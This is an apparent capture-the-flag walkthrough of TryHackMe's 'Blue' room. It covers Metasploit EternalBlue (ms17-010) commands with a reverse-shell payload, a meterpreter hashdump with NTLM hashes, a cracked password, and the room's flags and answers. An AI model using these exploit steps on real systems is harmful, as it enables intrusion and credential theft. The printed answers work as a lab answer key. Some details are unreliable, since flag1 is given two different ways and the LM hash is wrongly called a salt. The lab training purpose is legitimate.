





# <center>Blue</center>
<p align='center'></p>


Hey Net Guardians! Hope you are doing good with your hacking journey and cracking more and more machines. Today we came back with walkthrough of another easy category THM machine called Blue. This is a window machine where we will be dealing with one of the most famous cyber attack that affected almost every window machine back in 2017. `Eternal blue` is exploit that takes an advantage of a vulnerability in the Server Message Block (SMB) protocol, which is used for file and printer sharing in Windows operating systems. Ok that was a short description on what we are going to do in the machine. If you want to know more about this exploit then we can refer [Eternal Blue Documentation](https://www.cisecurity.org/wp-content/uploads/2019/01/Security-Primer-EternalBlue.pdfSands).

Now let's start with solving the machines.

## Phase1: Port and Service Scanning

For this we will be using `Nmap tool`. Nmap is a powerful tool using which we can scan the target system and also it provides flexibility with different firewall bypassing and script execution to find some of the known vulnerabilities.

After performing scan on the target machine. Nmap returned this result:



- `-sV`: Used for service version detection
- `-Pn`: no ping scan i.e it doesn't send ping probe to identify wheather host is up or not rather assume all host are up.
- `-T4`: increase the scanning speed.
- `--scipt=vuln`: test for some of the known vulnerabilities against the services running.

**Q1. How many ports are open with a port number under 1000?**

**Ans:** `3`

**Q2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**

**Ans:** `ms17-010`

## Phase2: Gaining Access
In the first phase, we have found that machine is vulnerable to ms17-010 exploit. Now, let's switch to metasploit and search for the exploit.



**Q3. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

**Ans:** `exploit/windows/smb/ms17_010_eternalblue`

Now let's use this exploit typing `use 0` and then we have to see what all are the information we have to provide for the exploit to run. For this simply type `options` command.



Here, we have found that we need to supply RHOSTS. For that simply type this command:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS machine_ip
RHOSTS => machine_ip
```
Also we have to change the payload to `windows/x64/shell/reverse_tcp`. For that type this command:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```
**Q4. Show options and set the one required value. What is the name of this value? (All caps for submission)**

**Ans:** `RHOSTS`

After that, we are all done with setting required field for the exploit to run. Now let's run the exploit and wait for a while to get meterpreter shell.
For running the exploit type:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
Note: If you are using openvpn of THM for connecting to machine, don't forget to set LHOST options with that shown in your tun0 section of ifconfig.

## Phase3: Esclate
Now the next thing to do is esclating the privileges. For that we will first background our current session with `ctrl+z` and then search for converting shell to meterpreter shell. For that type:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > 
```
After switching to that module, we will see what all options we will have to set. For that type `option` command and there we have to fill all those fileds which are shown 'yes' in required category. For setting the SESSION, simply type:
```bash
set SESSION 1
```
This we are doing, because we want to convert previous shell to meterpreter shell. If you have multiple session then you can see the session number with the command `sessions` and then set accordingly.

**Q5. Select this (use MODULE_PATH). Show options, what option are we required to change?**

**Ans:** `SESSION`

Now type `exploit` in your msfconsole.

After the module executes we will have two sessions in our msfconsole like this:

use the second session with the command `sessions -i 2`.

## Phase 4: Cracking
After switching to meterpreter shell, next thing to do is we have to find out the password of Jon who is the system owner. For that we will make use of this command:
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
There we have found hashed password of Jon, now let's go to `crackstation` and paste the hash. But before pasting there, let's understand which part to paste.

There we have two sections one is salt and other is hash. Just paste the hash section and 1000 is the userid for non-default users.

**Q6. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**

**Ans:** `Jon`

**Q7. Copy this password hash to a file and research how to crack it. What is the cracked password?**

**Ans:** `alqfna22`

After we get password for Jon, we need to switch to Jon user and for that first go to session 1 and type this command:
```bash

C:\Windows\system32>runas /user:Jon /savecred cmd
runas /user:Jon /savecred cmd
Enter the password for Jon: 
```
Now, go to C:\ drive which is root directory in case of windows. Then list the content of C drive there you will get flag file. To read the content of flag file simply type this command:
```bash
C:\Windows\system32>cd C:\
cd C:\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  02:27 PM                24 flag1.txt
07/13/2009  10:20 PM    <DIR>          PerfLogs
04/12/2011  03:28 AM    <DIR>          Program Files
03/17/2019  05:28 PM    <DIR>          Program Files (x86)
12/12/2018  10:13 PM    <DIR>          Users
09/01/2024  06:16 AM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  20,165,021,696 bytes free

C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}
```
**Q8. Flag1? This flag can be found at the system root.**

**Ans:** `flag{access_the_machines}`

There we have got our first flag. Then after for second flag as per the instruction of machine, we need to move to the directory where passwords are stored in windows. After searching for a while I found out that passwords are stored in SAM Database inside `windows\System32\config` directory and then I listed the content of this directory where I found second flag.
```bash
C:\>cd windows\System32\config
cd windows\System32\config

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Windows\System32\config

09/01/2024  06:16 AM    <DIR>          .
09/01/2024  06:16 AM    <DIR>          ..
12/12/2018  06:00 PM            28,672 BCD-Template
09/01/2024  06:26 AM        18,087,936 COMPONENTS
09/01/2024  06:27 AM           262,144 DEFAULT
03/17/2019  02:32 PM                34 flag2.txt
07/13/2009  09:34 PM    <DIR>          Journal
09/01/2024  05:38 AM    <DIR>          RegBack
09/01/2024  07:20 AM           262,144 SAM
09/01/2024  06:27 AM           262,144 SECURITY
09/01/2024  08:10 AM        40,632,320 SOFTWARE
09/01/2024  08:33 AM        12,582,912 SYSTEM
11/20/2010  09:41 PM    <DIR>          systemprofile
12/12/2018  06:03 PM    <DIR>          TxR
               8 File(s)     72,118,306 bytes
               6 Dir(s)  20,165,021,696 bytes free

C:\Windows\System32\config>type flag2.txt

type flag2.txt
flag{sam_database_elevated_access}
```
**Q9. Flag2? This flag can be found at the location where passwords are stored within Windows.**

**Ans:** `flag{sam_database_elevated_access}`

Now it's turn for third flag. I tried couple of locations for this flag but at the end I thought it could be somewhere in Jon's directory and I started searching there with command below:
```bash

C:\Users\Jon>dir /s /b C:\Users\Jon\flag3.txt
dir /s /b C:\Users\Jon\flag3.txt
C:\Users\Jon\Documents\flag3.txt

C:\Users\Jon>type C:\Users\Jon\Documents\flag3.txt
type C:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```
- `/s`: search for file in all subdirectories
- `/b`: display the result in bare format(i.e. only filename not any additional information)
- `C:\Users\Jon\flag3.txt`: starting location and filename to search for.

With that we have found our third flag as well.

**Q10. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.**

**Ans:** `flag{admin_documents_can_be_valuable}`

With that final flag, we have came to an end of this walthrough blog. I will come with some other interesting machines. See you till then.

Keep hacking!